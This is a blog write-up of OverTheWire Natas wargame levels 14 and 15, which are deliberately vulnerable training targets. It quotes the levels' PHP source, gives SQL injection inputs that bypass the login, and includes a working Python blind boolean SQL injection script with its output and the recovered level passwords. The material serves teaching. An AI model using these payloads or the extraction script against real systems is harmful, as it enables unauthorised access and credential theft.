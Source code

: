 ```yaml
---
layout: post
title: "OverTheWire: Natas 14 and 15"
date: 2016-11-15 12:00:00
share: true
comments: true
tags: overthewire natas
---
```


Starting this challenge, we'll be doing some fun SQL injection challenges. You may want to read about SQL, Regex and Python for easier understanding.

## Natas 14

Taking a look at the source code shows how the query is generated:

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```


Query:
```sql
SELECT * from users where username="someusername" and password="somepassword"
```

You'll notice that the user input is not being filtered, which means we can use escape characters to make the query act differently than it should be.
Since we're trying to log in as Natas15, let's manipulate the query in a way that will bypass checking for a valid password.

All the following combinations work (among many others):

  * **User**: `natas15" #`
    **Pass**: *empty*
    **Query**:
```sql
    SELECT * from users where username="natas15" # and password =""
```


  * **User**: `" or 1 = 1 #`
    **Pass**: *empty*
    **Query**:
```sql
    SELECT * from users where username="" or 1 = 1 # and password = ""
```

  * **User**: `natas15`
    **Pass**: `" or "1"="1`
    **Query**:
```sql
    SELECT * from users where username="natas15" and password = "" or "1" = "1"
```

Successful login! The password for natas15 is `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`.

_______________________________________________________

## Natas 15

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

In this example we'll be introduced to [blind-based SQL injection](https://www.exploit-db.com/docs/17397.pdf), more specifically to boolean based one.
Inspecting the source code above shows us that no data from the database issent directly to us, instead we get 3 types of responses depending on our query.

How can we retrieve the password? By asking questions! Like, does the password contain the letter 'a'? Does the letter 'x' come first?

Python script consists of two steps:

  1. Find a reduced sample size to bruteforce the password (since the number of valid characters is 62, and the password is only 32 characters long) without caring about position.
  2. Use the smaller set to get the exact word, password is an empty string where you keep looping for the next character, append it to the password and repeat, till you get the 32 characters long password.

```python
import requests
from requests.auth import HTTPBasicAuth

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
filtered = ''
passwd = ''

for char in chars:
    Data = {'username' : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
    if 'exists' in r.text :
        filtered = filtered + char

for i in range(0,32):
    for char in filtered:
        Data = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char + '%" #'}
        r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)
        if 'exists' in r.text :
            passwd = passwd + char
            print(passwd)
            break
```

If we didn't reduce our sample size, code complexity would've been `O(32 ^ 62)`, instead it became `O(62 + 32^25)`, which is much, much faster.

Output:
```
W
Wa
WaI
WaIH
WaIHE
WaIHEa
WaIHEac
WaIHEacj
WaIHEacj6
WaIHEacj63
WaIHEacj63w
WaIHEacj63wn
WaIHEacj63wnN
WaIHEacj63wnNI
WaIHEacj63wnNIB
WaIHEacj63wnNIBR
WaIHEacj63wnNIBRO
WaIHEacj63wnNIBROH
WaIHEacj63wnNIBROHe
WaIHEacj63wnNIBROHeq
WaIHEacj63wnNIBROHeqi
WaIHEacj63wnNIBROHeqi3
WaIHEacj63wnNIBROHeqi3p
WaIHEacj63wnNIBROHeqi3p9
WaIHEacj63wnNIBROHeqi3p9t
WaIHEacj63wnNIBROHeqi3p9t0
WaIHEacj63wnNIBROHeqi3p9t0m
WaIHEacj63wnNIBROHeqi3p9t0m5
WaIHEacj63wnNIBROHeqi3p9t0m5n
WaIHEacj63wnNIBROHeqi3p9t0m5nh
WaIHEacj63wnNIBROHeqi3p9t0m5nhm
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

Natas16 password is `WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`.
